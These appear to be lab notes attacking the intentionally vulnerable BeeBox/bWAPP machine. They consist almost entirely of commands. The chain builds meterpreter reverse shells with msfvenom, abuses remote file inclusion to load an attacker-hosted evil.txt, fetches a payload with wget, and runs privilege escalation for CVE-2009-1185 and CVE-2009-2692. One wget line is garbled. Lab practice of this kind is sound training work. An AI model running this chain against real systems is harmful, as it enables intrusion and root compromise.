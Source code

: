 ### BeeBox

"/multi/handler" can be used for txt file reverse shell

msfvenom -p php/meterpreter_reverse_tcp LHOST=192.168.112.4 LPORT=4446 -f raw -o /var/www/html/evil.txt
msfconsole  
use exploit/multi/handler   
set LPORT 4446    
set LHOST 192.168.112.4   
set PAYLOAD php/meterpreter_reverse_tcp   
run 

***Remote & Local File Inclusion (RFI/LFI)***

http://192.168.1.135/bWAPP/rlfi.php?language=lang_en.php&action=go  
**Change to:**  
?language=http://192.168.112.4/evil.txt

python -c 'import pty; pty.spawn("/bin/sh")'    
id  
whoami  

On Kali:
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.112.4 LPORT=5000 -f elf -o /var/www/html/run
service apache2   
msfconsole  
use exploit/multi/handler 
set LHOST 192.168.112.4 
set LPORT 5000  
set PAYLOAD linux/x86/meterpreter/reverse_tcp 

On BeeBox:  
wget http://192.168.112.4/run -o /tmp/cd un 
gcc cve-2009-1185.c -o /tmp/privescalation  
chmod +x /tmp/privescalation  
cd /tmp    
ps aux | grep udev      
./privescalation (PID discovered with grep minus 1 - e.g. 2864 - 1 = 2863)  


**Easy Way**  
tar -xvf cve-2009-2692.tar  
cd cve-2009-2692  
sh cve-2009-2692.sh 
